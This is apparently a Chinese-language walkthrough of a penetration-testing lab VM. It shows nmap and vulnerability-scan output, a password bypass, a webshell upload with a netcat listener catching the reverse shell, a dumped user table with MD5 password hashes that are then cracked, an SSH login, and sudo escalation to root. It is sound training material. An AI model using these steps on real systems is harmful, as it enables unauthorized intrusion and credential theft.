




## 端口扫描

```bash
┌─[fforu@parrot]─[~/workspace]
└──╼ $sudo nmap -sT --min-rate 9999 -p- 10.10.10.19
[sudo] fforu 的密码：
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-05 02:27 EST
Nmap scan report for 10.10.10.19
Host is up (0.026s latency).
Not shown: 65499 filtered tcp ports (no-response), 27 filtered tcp ports (host-unreach)
PORT      STATE  SERVICE
22/tcp    open   ssh
80/tcp    open   http
137/tcp   closed netbios-ns
138/tcp   closed netbios-dgm
139/tcp   open   netbios-ssn
901/tcp   open   samba-swat
5900/tcp  closed vnc
8080/tcp  open   http-proxy
10000/tcp open   snet-sensor-mgmt
MAC Address: 00:0C:29:05:1D:74 (VMware)

┌─[fforu@parrot]─[~/workspace]
└──╼ $sudo nmap -sT -sCV -O -p22,80,137,138,139,901,5900,8080,10000 10.10.10.19
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-05 02:29 EST
Nmap scan report for 10.10.10.19
Host is up (0.00076s latency).

PORT      STATE  SERVICE     VERSION
22/tcp    open   ssh         OpenSSH 5.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 41:8a:0d:5d:59:60:45:c4:c4:15:f3:8a:8d:c0:99:19 (DSA)
|_  2048 66:fb:a3:b4:74:72:66:f4:92:73:8f:bf:61:ec:8b:35 (RSA)
80/tcp    open   http        Apache httpd 2.2.15 ((CentOS))
|_http-server-header: Apache/2.2.15 (CentOS)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Mad Irish Hacking Academy
137/tcp   closed netbios-ns
138/tcp   closed netbios-dgm
139/tcp   open   netbios-ssn Samba smbd 3.5.10-125.el6 (workgroup: MYGROUP)
901/tcp   open   http        Samba SWAT administration server
| http-auth: 
| HTTP/1.0 401 Authorization Required\x0D
|_  Basic realm=SWAT
|_http-title: 401 Authorization Required
5900/tcp  closed vnc
8080/tcp  open   http        Apache httpd 2.2.15 ((CentOS))
|_http-server-header: Apache/2.2.15 (CentOS)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Admin :: Mad Irish Hacking Academy
|_Requested resource was /login.php
|_http-open-proxy: Proxy might be redirecting requests
10000/tcp open   http        MiniServ 1.610 (Webmin httpd)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Login to Webmin
MAC Address: 00:0C:29:05:1D:74 (VMware)
Device type: general purpose|webcam|storage-misc|media device|WAP
Running (JUST GUESSING): Linux 2.6.X|3.X|4.X (97%), Tandberg embedded (91%), Drobo embedded (90%), HP embedded (89%), Infomir embedded (89%), Ubiquiti embedded (89%)
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/h:drobo:5n cpe:/h:hp:p2000_g3 cpe:/h:infomir:mag-250 cpe:/o:linux:linux_kernel:2.6.32 cpe:/h:ubnt:airmax_nanostation
Aggressive OS guesses: Linux 2.6.32 - 3.13 (97%), Linux 2.6.39 (96%), Linux 2.6.32 - 3.10 (94%), Linux 2.6.32 (92%), Linux 2.6.32 - 3.1 (92%), Linux 3.2 - 3.8 (92%), Linux 2.6.22 - 2.6.36 (91%), Linux 3.10 - 4.11 (91%), Tandberg Video Conference System (91%), Linux 2.6.32 - 2.6.39 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

Host script results:
|_clock-skew: mean: -14d14h48m41s, deviation: 3h32m11s, median: -14d17h18m44s
| smb-os-discovery: 
|   OS: Unix (Samba 3.5.10-125.el6)
|   Computer name: localhost
|   NetBIOS computer name: 
|   Domain name: 
|   FQDN: localhost
|_  System time: 2024-02-19T09:11:22-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)


┌─[fforu@parrot]─[~/workspace]
└──╼ $sudo nmap -sT --script=vuln -p22,80,137,138,139,901,5900,8080,10000 10.10.10.19
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-05 02:32 EST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.19
Host is up (0.0040s latency).

PORT      STATE  SERVICE
22/tcp    open   ssh
80/tcp    open   http
| http-enum: 
|   /webmail/: Mail folder
|   /css/: Potentially interesting directory w/ listing on 'apache/2.2.15 (centos)'
|   /icons/: Potentially interesting folder w/ directory listing
|   /img/: Potentially interesting directory w/ listing on 'apache/2.2.15 (centos)'
|   /inc/: Potentially interesting directory w/ listing on 'apache/2.2.15 (centos)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.2.15 (centos)'
|_  /webalizer/: Potentially interesting folder
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.10.19
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://10.10.10.19:80/signup
|     Form id: email
|_    Form action: /signup_scr
|_http-trace: TRACE is enabled
| http-fileupload-exploiter: 
|   
|     Couldn't find a file-type field.
|   
|     Couldn't find a file-type field.
|   
|     Couldn't find a file-type field.
|   
|     Couldn't find a file-type field.
|   
|_    Couldn't find a file-type field.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
137/tcp   closed netbios-ns
138/tcp   closed netbios-dgm
139/tcp   open   netbios-ssn
901/tcp   open   samba-swat
5900/tcp  closed vnc
8080/tcp  open   http-proxy
|_http-trace: TRACE is enabled
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|       httponly flag not set
|   /login.php: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
| http-enum: 
|   /login.php: Possible admin folder
|   /phpmyadmin/: phpMyAdmin
|   /docs/: Potentially interesting directory w/ listing on 'apache/2.2.15 (centos)'
|   /icons/: Potentially interesting folder w/ directory listing
|_  /inc/: Potentially interesting directory w/ listing on 'apache/2.2.15 (centos)'
10000/tcp open   snet-sensor-mgmt
MAC Address: 00:0C:29:05:1D:74 (VMware)

Host script results:
| smb-vuln-cve2009-3103: 
|   VULNERABLE:
|   SMBv2 exploit (CVE-2009-3103, Microsoft Security Advisory 975497)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2009-3103
|           Array index error in the SMBv2 protocol implementation in srv2.sys in Microsoft Windows Vista Gold, SP1, and SP2,
|           Windows Server 2008 Gold and SP2, and Windows 7 RC allows remote attackers to execute arbitrary code or cause a
|           denial of service (system crash) via an & (ampersand) character in a Process ID High header field in a NEGOTIATE
|           PROTOCOL REQUEST packet, which triggers an attempted dereference of an out-of-bounds memory location,
|           aka "SMBv2 Negotiation Vulnerability."
|           
|     Disclosure date: 2009-09-08
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
|_      http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
| smb-vuln-regsvc-dos: 
|   VULNERABLE:
|   Service regsvc in Microsoft Windows systems vulnerable to denial of service
|     State: VULNERABLE
|       The service regsvc in Microsoft Windows 2000 systems is vulnerable to denial of service caused by a null deference
|       pointer. This script will crash the service if it is vulnerable. This vulnerability was discovered by Ron Bowes
|       while working on smb-enum-sessions.
|_          
|_smb-vuln-ms10-061: false
|_smb-vuln-ms10-054: false
```
## web渗透

来到8080端口

万能密码直接登进去了
登录到后台后，找到文件上传点

上传shell文件

### 目录爆破

注意这个assects（资产）目录
访问，发现上传的shell

点击即可接收到shell

## 第一个立足点，webshell

```bash
┌─[fforu@parrot]─[~/workspace]
└──╼ $sudo nc -lvnp 80
[sudo] fforu 的密码：
listening on [any] 80 ...
connect to [10.10.10.4] from (UNKNOWN) [10.10.10.19] 35010
Linux localhost.localdomain 2.6.32-279.el6.i686 #1 SMP Fri Jun 22 10:59:55 UTC 2012 i686 i686 i386 GNU/Linux
 09:56:47 up  1:01,  1 user,  load average: 0.00, 8.48, 27.11
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -                08:56    1:00m  0.02s  0.02s -bash
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
sh: no job control in this shell
sh-4.1$
```

### 信息收集

在网站根目录下找到sql文件
```sql
INSERT INTO `users` VALUES ('webdev@localhost.localdomain','f7aa6066f95255096672e3a5fc537081',1,NULL,13,'Developer account','Developer account for updating the site.'),('brian@localhost.localdomain','d41d8cd98f00b204e9800998ecf8427e',1,'2012-12-19 11:30:54',3,'Brian Hershel','Brian is our technical brains behind the operations and a chief trainer.'),('john@localhost.localdomain','0d9ff2a4396d6939f80ffe09b1280ee1',1,NULL,4,'John Durham',''),('alice@localhost.localdomain','2146bf95e8929874fc63d54f50f1d2e3',1,NULL,5,'Alice Wonder',''),('ruby@localhost.localdomain','9f80ec37f8313728ef3e2f218c79aa23',0,NULL,6,'Ruby Spinster',''),('leon@localhost.localdomain','5d93ceb70e2bf5daa84ec3d0cd2c731a',0,NULL,7,'Leon Parnetta',''),('julia@localhost.localdomain','ed2539fe892d2c52c42a440354e8e3d5',0,NULL,8,'Julia Fields',''),('michael@localhost.localdomain','9c42a1346e333a770904b2a2b37fa7d3',0,NULL,9,'Michael Saint',''),('bruce@localhost.localdomain','3a24d81c2b9d0d9aaf2f10c6c9757d4e',0,NULL,10,'Bruce Pottricks',''),('neil@localhost.localdomain','4773408d5358875b3764db552a29ca61',0,NULL,11,'Neil Felstein',''),('charles@localhost.localdomain','b2a97bcecbd9336b98d59d9324dae5cf',0,NULL,12,'Charles Adams','');
```

看到用户信息及密码

md5破解一下尝试ssh登录

## 提权

用了john用户的账号信息及密码
直接登录sudo -l
就可以直接提权了
```bash
┌─[✗]─[fforu@parrot]─[~/workspace]
└──╼ $sudo ssh -oHostKeyAlgorithms=+ssh-rsa john@10.10.10.19                                                      
The authenticity of host '10.10.10.19 (10.10.10.19)' can't be established.
RSA key fingerprint is SHA256:GfrI8RJ0/Xy8Za7qDP9Gm+RaoxuVz1GWo15hvn8+rdI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes 
Warning: Permanently added '10.10.10.19' (RSA) to the list of known hosts.
john@10.10.10.19's password: 
Last login: Wed Dec 19 20:10:49 2012 from 10.0.0.50
[john@localhost ~]$ sudo -l
[sudo] password for john: 
Matching Defaults entries for john on this host:
    requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG
    LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User john may run the following commands on this host:
    (ALL) ALL
[john@localhost ~]$ sudo /bin/bash
[root@localhost john]# 
```